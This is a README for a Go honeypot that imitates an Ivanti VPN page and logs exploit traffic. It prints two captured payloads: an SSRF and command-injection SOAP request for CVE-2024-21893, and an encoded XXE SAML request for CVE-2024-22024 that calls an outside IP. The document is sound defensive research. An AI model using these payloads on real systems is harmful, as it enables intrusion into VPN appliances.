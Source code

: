 Due to the Ivanti Vulnerabilities that have been prevelant recently created a small honeypot in golang.  It will respond to anything by sending the link to the VPN welcome page and then it will capture what is being sent.

You can customize the honeypot with the following options:

```text
Usage 
  -https string
        Disable site from running HTTPS (default: -https true) (default "true")
  -port string
        Change default listening port (default: -port 9000) (default "9000")
  -user string
        Change default user (default: -user nobody) (default "nobody")
```

Current command I am using to execute the honeypot and use tee for logging.  I also combine it with screen or tmux to background the stdout.  Any POST information will be saved to a random file in the folder postInfo.

```bash
./ihp -user nobody -port 443 | tee -a honeypotOutput.txt &
```


![Honeypot](/projects/honeypots/ivantiHoneypot/honeypot.png)

## Research Collected from the Honeypot

### CVE-2024-21893
Description: If the exploit is successful it creates the file in the CSS directory, the automation of the exploitation checks to see if the file is created.

Github POCs: Exist
Date: 06 Feb 24 05:36 UTC 
Method: POST URL: /dana-ws/saml20.ws
Method: GET URL: /dana-na/css/q1WdZI.css (Observed saving to the CSS directory)
Method: GET URL: /dana-na/help/241.gif (Observed saving to the help directory)

```POST Example
<?xml version="1.0" encoding="UTF-8"?>
    <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
        <soap:Body>
            <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
                <ds:SignedInfo>
                    <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
                    <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1"/>
                </ds:SignedInfo>
                <ds:SignatureValue>qwerty</ds:SignatureValue>
                <ds:KeyInfo xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.w3.org/2000/09/xmldsig#" xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
                    <ds:RetrievalMethod URI="http://127.0.0.1:8090/api/v1/license/keys-status/%3Bid%20%3E%20/home/webserver/htdocs/dana-na/css/qz0fPQ.css%3B"/>
                    <ds:X509Data/>
                </ds:KeyInfo>
                <ds:Object></ds:Object>
            </ds:Signature>
        </soap:Body>
    </soap:Envelope>
```


### CVE-2024-22024
Description: If the exploit is successful it creates the file in the CSS directory, the automation of the exploitation checks to see if the file is created.

Github POCs: Exist
Date: 16 Feb 24 04:34 UTC 
Method: POST URL: /dana-na/auth/saml-sso.cgi
Method: GET URL: /dana-na/css/pawsu1.css

```POST Example
SAMLRequest=PD94bWwgdmVyc2lvbj0iMS4wIiA%2FPjwhRE9DVFlQRSByb290IFs8IUVOVElUWSAlIHh4ZSBTWVNURU0gImh0dHA6Ly8xNDMuMTEwLjI1NC4xMjYvZnVfMzUuOTAuNjkuMjM3Ij4gJXh4ZTtdPjxyPjwvcj4%3D
```

I used cyberchef to base64 decode, url decode, etc. to see the payload being sent.


